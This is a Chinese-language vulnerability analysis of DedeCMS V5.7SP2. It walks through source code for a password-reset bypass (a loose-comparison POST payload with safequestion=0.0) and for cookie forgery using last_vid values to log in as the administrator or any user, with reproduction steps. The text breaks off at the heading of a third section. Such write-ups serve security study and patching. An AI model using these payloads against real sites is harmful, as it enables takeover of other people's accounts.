## 目录
- [修改前台用户密码漏洞分析](#1-修改前台用户密码漏洞)
- [cookie伪造前台用户登录](#2-cookie伪造前台用户登录)
- [重置后台管理员密码](#3-重置后台管理员密码)
- [前台任意文件删除漏洞](#4-前台任意文件删除漏洞)
- [任意图片删除漏洞](#5-任意图片删除漏洞)
- [后台文件上传getshell漏洞分析](#6-后台文件上传getshell漏洞)

## 1. 修改前台用户密码漏洞
- 漏洞公布时间:2018/01/10
- 影响版本:V5.7SP2正式版(2018-01-09)之前所有版本
- 修复时间:未定

### 漏洞说明
这个漏洞的前提是需要开启用户注册的功能，造成的危害是能够修改前台部分用户的密码，这部分用户是那些没有设置密保问题的用户。前台管理员密码虽然也没有设置密保问题，但是由于dedecms本身的功能即使修改密码也是无法登录的。

dedecms重置密码的原理是给重置密码的用户发送一个重置密码的链接。那么在进行重置密码时，修改为其他的用户就能够修改其他用户的密码了，所以本质上来说这是一个越权漏洞。

### 漏洞分析
假设dedecms已经开启了用户注册的功能，用户重置密码的的URL是为`http://localhost/member/resetpassword.php`。对应于源码的位置是`member/resetpassword.php`。
#### safequestion分析
在`member/resetpassword.php`中存在三个重置密码的方法，分别是`getped`、`safequestion`、`getpasswd`。而本次的漏洞与`safequestion`有关。
分析`safequestion`方法代码：
```PHP
else if($dopost == "safequestion")
{
    $mid = preg_replace("#[^0-9]#", "", $id);
    $sql = "SELECT safequestion,safeanswer,userid,email FROM #@__member WHERE mid = '$mid'";
    $row = $db->GetOne($sql);
    if(empty($safequestion)) $safequestion = '';

    if(empty($safeanswer)) $safeanswer = '';

    if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)
    {
        sn($mid, $row['userid'], $row['email'], 'N');
        exit();
    }
    else
    {
        ShowMsg("对不起，您的安全问题或答案回答错误","-1");
        exit();
    }

}
```
其中有几个关键的验证，如`empty($safequestion)`、`empty($safeanswer)`、`if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)`。首先我们需要知道，一个没有设置密保问题的用户，默认的`safequestion`和`safeanswer`结果。
```SQL
mysql> SELECT safequestion,safeanswer,userid,email FROM dede_member WHERE mid='1';
+--------------+------------+--------+-------+
| safequestion | safeanswer | userid | email |
+--------------+------------+--------+-------+
|            0 |            | admin  |       |
+--------------+------------+--------+-------+
1 row in set (0.00 sec)
```
默认情况下的`safequestion`为0,`safeanswer`为空。那么如何通过这个验证呢？如果我们传输的`safequestion`为0，而`empty($safequestion)`为True。此时我们需要利用到php的隐式类型转换，即PHP在进行类型比较、类型判断时会自动进行一些类型的转换，如下：
```PHP
var_dump(empty(0));             // true
var_dump(empty('0'));           // true
var_dump(empty('0.0'));         // false
var_dump(0.0==0);               // true
var_dump('0.0'==0);             // true
var_dump(null=='');             // true
```
**所以我们设置我们输入的safequestion为0.0，safeanswer为空就可以绕过这个验证**，此时`empty($safeanswer)为True`，`$row['safequestion'] == $safequestion也为True`,而数据中查询出来的`safeanswer`本身就为NULL，所以我们设置为空，就可以通过验证。之后程序进入`sn($mid, $row['userid'], $row['email'], 'N');`中。

**所以这个地方重置的仅仅是那些没有设置密保问题的用户，因为只有这些用户他们的safequestion才是空**

#### sn函数分析
跟踪进入到`member/inc/inc_pwd_functions.php:sn()`中，
```PHP
function sn($mid,$userid,$mailto, $send = 'Y')
{
    global $db;
    $tptim= (60*10);
    $dtime = time();
    $sql = "SELECT * FROM #@__pwd_tmp WHERE mid = '$mid'";
    $row = $db->GetOne($sql);
    if(!is_array($row))
    {
        //发送新邮件；
        newmail($mid,$userid,$mailto,'INSERT',$send);
    }
    //10分钟后可以再次发送新验证码；
   elseif($dtime - $tptim > $row['mailtime'])
    {
        newmail($mid,$userid,$mailto,'UPDATE',$send);
    }
    //重新发送新的验证码确认邮件；
    else
    {
        return ShowMsg('对不起，请10分钟后再重新申请', 'login.php');
    }
}
```
进入到sn()函数之后，会执行`SELECT * FROM #@__pwd_tmp WHERE mid = '$mid'`,此条SQL语句查询的是`dede_pwd_tmp`,此表存储的就是重置密码的临时KEY。由于此时没有重置密码，所以没有对应此用户的记录。



进入到第一个判断`newmail($mid,$userid,$mailto,'INSERT',$send);`中

#### newmail
追踪进入到`member/inc/inc_pwd_functions.php:newmail()`中
```PHP
function newmail($mid, $userid, $mailto, $type, $send)
{
    global $db,$cfg_adminemail,$cfg_webname,$cfg_basehost,$cfg_memberurl;
    $mailtime = time();
    $randval = random(8);
    $mailtitle = $cfg_webname.":密码修改";
    $mailto = $mailto;
    $headers = "From: ".$cfg_adminemail."\r\nReply-To: $cfg_adminemail";
    $mailbody = "亲爱的".$userid."：\r\n您好！感谢您使用".$cfg_webname."网。\r\n".$cfg_webname."应您的要求，重新设置密码：（注：如果您没有提出申请，请检查您的信息是否泄漏。）\r\n本次临时登陆密码为：".$randval." 请于三天内登陆下面网址确认修改。\r\n".$cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&id=".$mid;
    if($type == 'INSERT')
    {
        $key = md5($randval);
        $sql = "INSERT INTO `#@__pwd_tmp` (`mid` ,`membername` ,`pwd` ,`mailtime`)VALUES ('$mid', '$userid',  '$key', '$mailtime');";
        if($db->ExecuteNoneQuery($sql))
        {
            if($send == 'Y')
            {
                sendmail($mailto,$mailtitle,$mailbody,$headers);
                return ShowMsg('EMAIL修改验证码已经发送到原来的邮箱请查收', 'login.php','','5000');
            } else if ($send == 'N')
            {
                return ShowMsg('稍后跳转到修改页', $cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&amp;id=".$mid."&amp;key=".$randval);
            }
        }
        else
        {
            return ShowMsg('对不起修改失败，请联系管理员', 'login.php');
        }
    }
```
进入到`$type == 'INSERT'`中，生成一个临时KEY,`$key = md5($randval);`,然后插入到数据库中，`$sql = "INSERT INTO #@__pwd_tmp (mid ,membername ,pwd ,mailtime)VALUES ('$mid', '$userid',  '$key', '$mailtime');";`。接下来根据参数`$send`的值判断是将重置密码的链接通过邮箱发送还是直接跳转。这个参数最开始是在`$dopost == "safequestion"`中设置的，默认值是`N`，那么就会将对应id的密码返回。



拿到重置链接直接在浏览器中访问就可以修改此id对应用户的密码了。



### 重置密码
重置密码发送的请求如下：
```
URL:http://localhost/member/resetpassword.php
POST:dopost=getpasswd&setp=2&id=3&userid=test02&key=K5TrsKQB&pwd=123456&pwdok=123456
```
其中的`pwd`和`pwdok`是我设置的重置密码。

此重置密码的请求就会进入到`member/resetpassword.php`的`$dopost == "getpasswd"`中
```PHP
else if($dopost == "getpasswd")
{
    //修改密码
    if(empty($id))
    {
        ShowMsg("对不起，请不要非法提交","login.php");
        exit();
    }
    $mid = preg_replace("#[^0-9]#", "", $id);
    $row = $db->GetOne("SELECT * FROM #@__pwd_tmp WHERE mid = '$mid'");
    if(empty($row))
    {
        ShowMsg("对不起，请不要非法提交","login.php");
        exit();
    }
    if(empty($setp))
    {
        $tptim= (60*60*24*3);
        $dtime = time();
        if($dtime - $tptim > $row['mailtime'])
        {
            $db->executenonequery("DELETE FROM `#@__pwd_tmp` WHERE `md` = '$id';");
            ShowMsg("对不起，临时密码修改期限已过期","login.php");
            exit();
        }
        require_once(dirname(__FILE__)."/templets/resetpassword2.htm");
    }
    elseif($setp == 2)
    {
        if(isset($key)) $pwdtmp = $key;

        $sn = md5(trim($pwdtmp));
        if($row['pwd'] == $sn)
        {
            if($pwd != "")
            {
                if($pwd == $pwdok)
                {
                    $pwdok = md5($pwdok);
                    $sql = "DELETE FROM `#@__pwd_tmp` WHERE `mid` = '$id';";
                    $db->executenonequery($sql);
                    $sql = "UPDATE `#@__member` SET `pwd` = '$pwdok' WHERE `mid` = '$id';";
                    if($db->executenonequery($sql))
                    {
                        showmsg('更改密码成功，请牢记新密码', 'login.php');
                        exit;
                    }
                }
            }
            showmsg('对不起，新密码为空或填写不一致', '-1');
            exit;
        }
        showmsg('对不起，临时密码错误', '-1');
        exit;
    }
}
```
进入之后，会进行`$db->GetOne("SELECT * FROM #@__pwd_tmp WHERE mid = '$mid'")`查选，因为在重置密码时已经在`dede_pwd_tmp`表中保存了记录，所以此时存在数据。



之后根据step的值为2，进入到更改密码的操作中。更改密码之后会进行`$sn = md5(trim($pwdtmp));if($row['pwd'] == $sn`操作，与数据库的中密码进行校验，校验成功之后，就会执行一下的两条SQL语句：
```PHP
"DELETE FROM `#@__pwd_tmp` WHERE `mid` = '$id';"            # 删除临时密码表中的数据
"UPDATE `#@__member` SET `pwd` = '$pwdok' WHERE `mid` = '$id';";    # 更新dede_memeber中的密码
```

至此就完整了整个任意用户密码的重置过程。

### POC
这个漏洞的POC也比较的简单，通过`safequestion`方法重置密码即可。
```
URL:member/resetpassword.php
POST:dopost=safequestion&safequestion=0.0&safeanswer=&id=用户ID
```

### 总结
这个漏洞其实并没有使用什么特殊技巧，仅仅是由于程序在校验的时候不严格。所以这个漏洞也很好修复，将`$row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer`中的`==`变为`===`。除此之外，我在调试这个漏洞时发现这个`safequestion`并没有对应到前台的某个操作，所以感觉这个方法一直没有被使用，而这个漏洞刚好利用了这个方法，所以如果不用这个方法的是完全可以删除的，最后就看官方如何修复吧。

[返回目录](#目录)

## 2. cookie伪造前台用户登录
### 漏洞信息
- 漏洞公布时间:2018/01/17
- 影响版本：V5.7SP2正式版(2018-01-09)
- 修复时间：未定
- 漏洞条件：开启会员注册的功能、保证会员能够正常地注册

### 前言
dedecms在对前台用户认证时采用的是通过cookie的验证方式，通过Cookie中的`DedeUserID`和`DedeUserID__ckMd5`对当前的用户的身份以及登录状态进行验证。此漏洞的原因就是将`DedeUserID`和`DedeUserID__ckMd5`伪造成为了其他用户的值，这样就导致伪造其他用户的Cookie而能够以其他的用户登录。

漏洞的前提是要求开启前台用户注册的功能，保证用户能够顺利地进行注册(包括审核通过，能够查看个人空间)

### 漏洞说明
首先需要明确用户登录时后台的处理流程。当会员登录时，后台的处理流程时：
1. 用户输入登陆信息时，后台是由`include/memberlogin.class.php`中的`MemberLogin`类来进行处理。
2. 登录成功之后，用户跳转到`http://localhost/member/index.php`，之后便由`member/index.php`判断是由什么方法处理。

#### Cookie校验分析
在dedecms中，所有的cookie是成对出现的。如`DedeUserID__ckMd5`和`DedeUserID`,以及`DedeLoginTime__ckMd5`和`DedeLoginTime`。其中的`DedeUserID__ckMd5`这种形式是对`DedeUserID`进行了校验，防止前台的Cookie被任意地篡改。`dedecms`中所有的cookie操作都是由`include/helpers/cookie.helper.php:PutCookie()`方法设置的，如下：
```PHP
if ( ! function_exists('PutCookie'))
{
    function PutCookie($key, $value, $kptime=0, $pa="/")
    {
        global $cfg_cookie_encode,$cfg_domain_cookie;
        setcookie($key, $value, time()+$kptime, $pa,$cfg_domain_cookie);
        setcookie($key.'__ckMd5', substr(md5($cfg_cookie_encode.$value),0,16), time()+$kptime, $pa,$cfg_domain_cookie);
    }
}
```
`$key.'__ckMd5'`是由`substr(md5($cfg_cookie_encode.$value),0,16)`得到的，其中的`cfg_cookie_encode`是在程序安装时设置的。所以如果我们不知道这个值，我们是无法破解`$key.'__ckMd5'`。所以一般情况下，我们是无法破解`$key.'__ckMd5'`这类值的。

所有的取Cookie的操作都是由`include/helpers/cookie.helper.php:GetCookie()`设置的，如下：
```PHP
if (!function_exists('GetCookie')) {
    function GetCookie($key) {
        global $cfg_cookie_encode;
        if (!isset($_COOKIE[$key]) || !isset($_COOKIE[$key . '__ckMd5'])) {
            return '';
        }
        else {
            if ($_COOKIE[$key . '__ckMd5'] != substr(md5($cfg_cookie_encode . $_COOKIE[$key]), 0, 16)) {
                return '';
            }
            else {
                return $_COOKIE[$key];
            }
        }
    }
}
```
由于根据`$_COOKIE[$key . '__ckMd5']`对`$_COOKIE[$key]`进行了校验,这种方式就能够有效地避免前台任意第修改Cookie，这种方式本意上是好的，但是由于dedecms的实现问题，导致这种方式也会成为漏洞的根源。试想一下，如果我们同时修改了`$_COOKIE[$key]`和`$_COOKIE[$key . '__ckMd5']`就可以绕过这个验证了。

#### 登录校验函数
`include/memberlogin.class.php`中的`MemberLogin`类
```PHP
function __construct($kptime = -1, $cache=FALSE)
{
    global $dsql;
    if($kptime==-1){
        $this->M_KeepTime = 3600 * 24 * 7;
    }else{
        $this->M_KeepTime = $kptime;
    }
    $formcache = FALSE;
    $this->M_ID = $this->GetNum(GetCookie("DedeUserID"));
    $this->M_LoginTime = GetCookie("DedeLoginTime");
    $this->fields = array();
    $this->isAdmin = FALSE;
    if(empty($this->M_ID))
    {
        $this->ResetUser();
    }else{
        $this->M_ID = intval($this->M_ID);
        
        if ($cache)
        {
            $this->fields = GetCache($this->memberCache, $this->M_ID);
            if( empty($this->fields) )
            {
                $this->fields = $dsql->GetOne("Select * From `#@__member` where mid='{$this->M_ID}' ");
            } else {
                $formcache = TRUE;
            }
        } else {
            $this->fields = $dsql->GetOne("Select * From `#@__member` where mid='{$this->M_ID}' ");
        }
        if(is_array($this->fields)){
        //    some other php code
        }else{
            $this->ResetUser();
        }
    }
}
```
其中取得`M_ID`的函数是`$this->M_ID = $this->GetNum(GetCookie("DedeUserID"));`,其中`GetNum()`的做法是：
```PHP
function GetNum($fnum){
    $fnum = preg_replace("/[^0-9\.]/", '', $fnum);
    return $fnum;
}
```
直接将不是数字的字符全部都替换掉。之后通过SQL语句`Select * From '#@__member' where mid='{$this->M_ID}'`来判断用户的身份。由于`GetNum()`采用的是替换的方法，那么如果Cookie中的`DedeUserID`是0000001，


正常情况下，程序中的`DedeUserID`就是当前用户的用户ID。**但是如果将其中的`DedeUserID`和`DedeUserID__ckMd5`都替换为其他的账户，是否就意味着我们可以以其他的账户登录呢？**

那么现在的问题就在于，如何进行伪造呢？我们知道管理员`admin`的mid是1，但是我们如何得到对应的`DedeUserID__ckMd5`呢？所以目前的问题转变为我们需要得到`1`所对应的`DedeUserID__ckMd5`的。

#### 漏洞触发点
分析`member/index.php`中的`122`行之后的代码：
```PHP
$uid=empty($uid)? "" : RemoveXSS($uid); 
else
{
    require_once(DEDEMEMBER.'/inc/config_space.php');
    if($action == '')
    {
        include_once(DEDEINC."/channelunit.func.php");
        $dpl = new DedeTemplate();
        $tplfile = DEDEMEMBER."/space/{$_vars['spacestyle']}/index.htm";

        //更新最近访客记录及站点统计记录
        $vtime = time();
        $last_vtime = GetCookie('last_vtime');
        $last_vid = GetCookie('last_vid');
        if(empty($last_vtime))
        {
            $last_vtime = 0;
        }
        if($vtime - $last_vtime > 3600 || !preg_match('#,'.$uid.',#i', ','.$last_vid.',') )
        {
            if($last_vid!='')
            {
                $last_vids = explode(',',$last_vid);
                $i = 0;
                $last_vid = $uid;
                foreach($last_vids as $lsid)
                {
                    if($i>10)
                    {
                        break;
                    }
                    else if($lsid != $uid)
                    {
                        $i++;
                        $last_vid .= ','.$last_vid;
                    }
                }
            }
            else
            {
                $last_vid = $uid;
            }
            PutCookie('last_vtime', $vtime, 3600*24, '/');
            PutCookie('last_vid', $last_vid, 3600*24, '/');
            if($cfg_ml->IsLogin() && $cfg_ml->M_LoginID != $uid)
            {
                $vip = GetIP();
                $arr = $dsql->GetOne("SELECT * FROM `#@__member_vhistory` WHERE mid='{$_vars['mid']}' AND vid='{$cfg_ml->M_ID}' ");
                if(is_array($arr))
                {
                    $dsql->ExecuteNoneQuery("UPDATE `#@__member_vhistory` SET vip='$vip',vtime='$vtime',count=count+1 WHERE mid='{$_vars['mid']}' AND vid='{$cfg_ml->M_ID}' ");
                }
                else
                {
                    $query = "INSERT INTO `#@__member_vhistory`(mid,loginid,vid,vloginid,count,vip,vtime)
                             VALUES('{$_vars['mid']}','{$_vars['userid']}','{$cfg_ml->M_ID}','{$cfg_ml->M_LoginID}','1','$vip','$vtime'); ";
                    $dsql->ExecuteNoneQuery($query);
                }
            }
            $dsql->ExecuteNoneQuery("UPDATE `#@__member_tj` SET homecount=homecount+1 WHERE mid='{$_vars['mid']}' ");
        }
        $dpl->LoadTemplate($tplfile);
        $dpl->display();
        exit();
    }
    else
    {
        require_once(DEDEMEMBER.'/inc/space_action.php');
        exit();
    }
}
```
对其中的`last_vid`的赋值情况进行分析：
1. 11行,`$uid=empty($uid)? "" : RemoveXSS($uid); `,前台通过参数可以传入。
1. 134行，`$last_vid = GetCookie('last_vid');`初次赋值
2. 141-162行，`$last_vid!='';$last_vid = $uid;`，判断`last_vid`是否为空。如果为空，则将`uid`赋值给`last_vid`
3. 164行，`PutCookie('last_vid', $last_vid, 3600*24, '/');`,将`last_vid`加入到`Cookie`中。那么此时Cookie中就会存在`last_vid`和`last_vid__ckMd5`

那么这就是存在一个漏洞的触发点。如果我们将$uid设置为`001`，那么得到的`last_vid`和`last_vid__ckMd5`刚好就是一对可以使用的Cookie，同时`001`也刚好可以绕过管理员的验证。

但是需要注意的是，在124行存在代码`require_once(DEDEMEMBER.'/inc/config_space.php');`,引入了`config_space.php`文件。跟进`member/inc/config_space.php`,
```PHP
$_vars = GetUserSpaceInfos();
// some other php code
function GetUserSpaceInfos() {
    global $dsql, $uid, $cfg_memberurl;
    $_vars = array();
    $userid = preg_replace("#[\r\n\t \*%]#", '', $uid);
    $query = "SELECT m.mid,m.mtype,m.userid,m.uname,m.sex,m.rank,m.email,m.scores,
                            m.spacesta,m.face,m.logintime,
                            s.*,t.*,m.matt,r.membername,g.msg
                  From `#@__member` m
                  LEFT JOIN `#@__member_space` s on s.mid=m.mid
                  LEFT JOIN `#@__member_tj` t on t.mid=m.mid
                  LEFT JOIN `#@__arcrank` r on r.rank=m.rank
                  LEFT JOIN `#@__member_msg` g on g.mid=m.mid
                  where m.userid like '$uid' ORDER BY g.dtime DESC ";
    $_vars = $dsql->GetOne($query);
    if (!is_array($_vars)) {
        ShowMsg("你访问的用户可能已经被删除！", "javascript:;");
        exit();
    }
    // some other php code
    return $_vars;
}
```
在数据库查询的语句中`where m.userid like '$uid' ORDER BY g.dtime DESC "`,其中传入的`$uid`作为了`userid`。如果不存在程序就会退出。那么这就意味着我们传入的`uid`必须是已经存在的一个用户名，所以我们注册用户名时注册的用户名最好是`001`这种。

至此，所有的漏洞触发点集合在一起就能够触发这个漏洞了。整个漏洞的触发流程是:
1. 正常注册用户，注册的用户名为001。(要求后台管理员能够正常地通过审核，用户能够正常地浏览自己的空间)
2. 访问自己的首页`member/index.php`。添加参数`member/index.php?uid=001`，其中的uid的值需要和之前注册的用户名保持一致，这样才不会出现数据库中找不到用户，报`你访问的用户可能已经被删除`错误。
3. 得到`last_vid`和`last_vid__ckMd5`。替换`DedeUserID`、`DedeUserID__ckMd5`，此时就相对于将账号替换为了管理员的账号
4. 重新访问`member/index.php`,此时已经变为了管理员。

### 漏洞复现
1. 注册一个用户名为`001`的用户

    

2. 注册成功之后,跳转到会员首页(会员首页地址是`member/index.php`)。可以发现此时还是正常用户`001`，只有4个Cookie值，分别是`DedeUserID__ckMd5`、`DedeUserID`、`DedeLoginTime__ckMd5`、`DedeLoginTime`。

    

3. 访问链接`member/index.php?uid=001`。此时Cookie中会增加一些内容，其中最为重要的是`last_vid`和`last_vid__ckMd5`，取得他们的值。在我本地演示中，他们分别是`001`和`c6fda866fabaca07`

    

4. 最为关键的第一步，替换掉Cookie中的`DedeUserID`为`001`,`DedeUserID__ckMd5`为第四步`last_vid__ckMd5`得到的值`c6fda866fabaca07`。

    

    修改完毕之后，访问会员首页`member/index.php`,此时已经变成了管理员了。

    


演示中主要是登录了管理员的身份。因为其中我们中间访问时利用的是`member/index.php?uid=001`。如果需要登录其他账户的身份，比如id为7的用户，那么我们就需要注册一个名为`007`的账户，同时中途需要访问的是`member/index.php?uid=007`链接，将其中的`last_vid`和`last_vid__ckMd5`进行替换，就可以以`007`的账户登录。以此类推，我们就可以以任意的账户进行登录了。

### 总结
以上就完成了对整个漏洞的分析与复现。本漏洞其实主要是因为dedecms是通过Cookie中的`DedeUserID`对用户身份进行鉴别的，虽然使用了`DedeUserID__ckMd5`，但是我们看到还是可以被绕过的，最终形成了Cookie伪造导致任意用户登录的漏洞。

对于身份认证这类的信息，最好是放在Session中，前台的用户不容易修改，就不会出现这种Cookie伪造的问题了。

[返回目录](#目录)

## 3. 重置后台管理员密码
### 漏洞信息
- 漏洞公布时间:2018/01/17
- 影响版本：V5.7SP2正式版(2018-01-09)
- 修复时间：未定
- 漏洞条件：同时满足cookie伪造任意前台用户登录漏洞的条件和前台修改任意用户密码漏洞的条件

### 前言
